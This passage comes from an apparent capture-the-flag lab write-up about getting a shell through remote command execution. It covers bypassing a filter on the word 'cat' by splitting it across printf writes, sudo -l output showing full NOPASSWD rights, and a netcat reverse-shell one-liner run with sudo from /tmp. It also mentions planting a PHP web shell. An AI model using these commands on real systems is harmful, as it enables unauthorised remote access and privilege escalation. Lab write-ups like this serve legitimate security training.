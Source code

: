 a. Create shell script `shell.sh` and echo the _...Run second..._ part from above into it, then run that.
b. Create a PHP based shell, upload it to `/var/www/html` and just execute it.

I'll go with option _A_ first, then test _B_.

#### Shell attempt #1 (shell script)

To save time, I can determine if it's actally the _word_ `cat` that's causing the remote execution to fail. 

`echo 'cat';` if this fails, then we can skip to option B.

And fortunately-kinda, it fails. So looks like we should try another route. 

#### Shell attempt #2 (php script)

First we need to determine if we can `wget` files. If we can, we'll set up a `python3 -m http.server` on our attacker machine, create a PHP shell, upload it to `/var/www/html/...` then execute it by browsing to the file.

But, unfortunately, `wget` doesn't seem to return any response.

#### Shell attempt #3 (shell script hacky)

We can't run the `cat` command, but, we might be able to echo `ca`, and _then_ `t blah blah blah` into a script file that we execute. That way, we avoid inputting and explicit `cat` into our command.

We don't have _write_ access in `/var/www/html`.

On running `sudo -l`, our current user seems to have some funky permissions too. I'm unsure as to how to exploit this for the time being, but lets dive deeper and find our where we can write a shell to.

```
Matching Defaults entries for www-data on ip-10-10-3-141.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-3-141.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

It really feels like we _should_ have write access in `/var/www/html`, but lets try somewhere else. The classic `/tmp` directory is usually spankable.

```
touch /tmp/x.sh; ls -lah /tmp;
x.sh
```

*Success*, we can create a shell script here, now lets try our hacky `cat` concatenation.

```
# first we'll print 'ca' to the file, then the rest
printf 'ca' > /tmp/x.sh;
ls -lah /tmp/x.sh | grep x.sh; # we can see that bytes are added to the file! 
# and the rest...
printf 't /tmp/f | /bin/sh -i 2>&1 | nc -l 10.11.8.219 4444 > /tmp/f;' >> /tmp/x.sh;
ls -lah /tmp/x.sh | grep x.sh; # fingers crossed this'll run! 
# then try run the script with sudo
sudo sh /tmp/x.sh;
# if that fails try normal shell exec
sh /tmp/x.sh;
```
